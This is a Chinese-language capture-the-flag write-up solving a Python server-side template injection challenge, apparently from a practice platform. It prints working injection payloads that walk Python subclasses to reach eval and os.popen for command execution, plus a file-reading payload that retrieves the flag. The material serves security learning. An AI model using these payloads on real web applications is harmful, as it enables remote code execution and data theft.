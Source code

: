 # Web_python_template_injection
## 题目描述
暂无  
## 思路
http://220.249.52.133:31939
点开题目链接：
![avatar](./picture/Web_python_template_injection_1.png)  
是一道 python 模板注入的题，尝试一下：  
http://220.249.52.133:31939/{{7*7}}  
![avatar](./picture/Web_python_template_injection_2.png)  
确实存在该漏洞。  
看看网站模块都有些啥：  
http://220.249.52.133:31939/{{[].__class__.__base__.__subclasses__()}}  
![avatar](./picture/Web_python_template_injection_3.png)  
os 模块都是从 warnings.catch_warnings 模块入手的，因此，查找 catch_warnings 的位置，为第59个。  
我们再查看catch_warnings模块都存在哪些全局函数：  
http://220.249.52.133:31939/{{[].__class__.__base__.__subclasses__()[59].__init__.func_globals.keys()}}  
![avatar](./picture/Web_python_template_injection_4.png)  
发现了 linecache 函数，os 模块就在其中。  
使用 ['o'+'s']，可绕过对 os 字符的过滤，查看一下有那些文件：   
http://220.249.52.133:31939/{{().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls").read()')}}  
![avatar](./picture/Web_python_template_injection_5.png)  
flag 应该就在这个 fl4g 文件中了，尝试访问一下：  
http://220.249.52.133:31939/{{"".__class__.__mro__[2].__subclasses__()[40]("fl4g").read()}}  
![avatar](./picture/Web_python_template_injection_6.png)  
得到 flag。  


## 相关知识
1. 对于模板注入漏洞，判断漏洞是否存在，一般在 url 后添加 {{‘a'+'x'}} 或者 {{7*7}} 以查看是否会执行，若花括号内的式子被执行，则说明存在模板注入漏洞。  
2. 用 python 获取系统权限  
os.system 和 os.popen。前者返回退出状态码，后者以 file 形式返回输出内容。（https://blog.csdn.net/sxingming/article/details/52071514）  
3. 用python 语句寻找文件  
\__class__ ：返回对象所属的类  
__mro__：返回一个类所继承的基类元组（用于寻找基类）  
__base__ ：返回该类所继承的基类（用于寻找基类）  
__subclasses__ ： 每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的引用的列表  
__init__ ： 类的初始化方法  
__globals__ ： 对包含函数全局变量的字典的引用  
